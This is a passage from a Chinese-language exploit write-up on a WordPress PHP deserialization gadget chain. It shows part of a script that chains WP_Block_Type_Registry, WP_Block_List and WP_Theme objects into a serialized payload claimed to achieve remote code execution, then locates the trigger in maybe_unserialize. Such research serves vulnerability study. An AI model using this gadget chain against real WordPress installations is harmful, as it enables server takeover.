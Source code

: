 ```plain
    $blocks = ["Name" => $block];
    // 需要设置registered_block_types属性，同样为继承ArrayAccess接口的实例，即WP_Theme
    $registry = new WP_Block_Type_Registry($registered_block_types);
    // 需要设置blocks属性，含有“Name”键，为数组
    // 需要设置registry属性为WP_Block_Type_Registry对象
    $headers = new WP_Block_List($blocks, $registry);

    // WP_Theme中的get方法，需要设置$header属性为继承ArrayAccess接口的实例，即WP_Block_List
    // 触发__toString方法的对象
    $theme = new WP_Theme($headers, null);

    echo urlencode(serialize($theme));
}
```

生成的 payload 能够成功 RCE

## 触发

首先需要找到反序列化点，在 wordpress 中存在该方法 maybe\_unserialize 会对传入的数据进行反序列化

```plain
function maybe_unserialize( $data ) {
    if ( is_serialized( $data ) ) { // Don't attempt to unserialize data that wasn't serialized going in.
        return @unserialize( trim( $data ) );
    }

    return $data;
}
```

而调用该方法的在整个项目中存在 20 项

[![](assets/1707953698-52dfb0f9247d4f0cde28e4d5c8df950e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240208123150-fa33491a-c63a-1.png)
